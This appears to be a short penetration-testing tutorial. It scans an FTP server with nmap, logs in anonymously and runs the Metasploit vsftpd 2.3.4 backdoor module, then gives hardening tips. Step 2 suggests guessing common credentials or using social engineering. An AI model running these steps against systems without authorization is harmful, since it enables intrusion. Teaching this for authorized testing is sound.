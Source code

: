 # Simple Tutorial: Exploiting an FTP Service Protected by a Firewall

This tutorial will guide you through the basic steps to explore and exploit an FTP service protected by a firewall using Parrot OS. This is for educational purposes only; unauthorized access to systems is illegal.

## Step 1: Explore Open Ports with Nmap

### Install Nmap

If Nmap is not already installed on your Parrot OS, install it using:

```bash
sudo apt update
sudo apt install nmap
```

### Scan for Open Ports

Use Nmap to scan the target IP address for open ports:

```bash
nmap -sV <target-ip-address>
```

Replace `<target-ip-address>` with the IP address of the FTP server. This command will scan for open ports and attempt to determine the service versions.

### Example Nmap Output

You might see output like this:

```plaintext
Starting Nmap 7.91 ( https://nmap.org ) at 2024-05-28 15:00 UTC
Nmap scan report for 192.168.1.100
Host is up (0.0010s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.29 ((Ubuntu))
443/tcp  open  https       Apache httpd 2.4.29
```

## Step 2: Connect to the FTP Service

### Use FTP Command

Try connecting to the FTP server using the FTP command:

```bash
ftp <target-ip-address>
```

Replace `<target-ip-address>` with the IP address of the FTP server. If the server prompts for a username and password, you may need to try common credentials or use social engineering techniques to obtain them.

### Example FTP Command Session

```bash
ftp 192.168.1.100
Connected to 192.168.1.100.
220 (vsFTPd 3.0.3)
Name (192.168.1.100:your-username): anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp>
```

## Step 3: Exploit Vulnerabilities (if any)

### Search for Vulnerabilities

If you have discovered the version of vsftpd, you can search for known vulnerabilities. A commonly known vulnerability is the vsftpd 2.3.4 backdoor, but newer versions like 3.0.3 are more secure. Use search engines or vulnerability databases like CVE (Common Vulnerabilities and Exposures) to find relevant information.

### Example Exploit: vsftpd 2.3.4 Backdoor

This is a hypothetical example since newer versions do not have this issue. For vsftpd 2.3.4, you could use Metasploit:

1. Open Metasploit:

    ```bash
    msfconsole
    ```

2. Search for the vsftpd exploit:

    ```bash
    search vsftpd
    ```

3. Use the exploit module:

    ```bash
    use exploit/unix/ftp/vsftpd_234_backdoor
    ```

4. Set the target:

    ```bash
    set RHOST <target-ip-address>
    ```

5. Run the exploit:

    ```bash
    exploit
    ```

## Step 4: Securing Your System

### Prevent Unauthorized Access

1. **Update vsftpd**: Ensure you are running the latest version of vsftpd to avoid known vulnerabilities.
2. **Strong Passwords**: Use strong, unique passwords for all users.
3. **Limit Access**: Configure your firewall to limit access to the FTP server to trusted IP addresses only.
4. **Monitor Logs**: Regularly check system and vsftpd logs for suspicious activity.

## Summary

1. Use Nmap to scan for open ports on the target system.
2. Attempt to connect to the FTP service using the FTP command.
3. Search for and, if possible, exploit known vulnerabilities.
4. Ensure you understand the importance of securing your system against similar attacks.

**Note**: Always conduct penetration testing ethically and with permission. Unauthorized access to computer systems is illegal.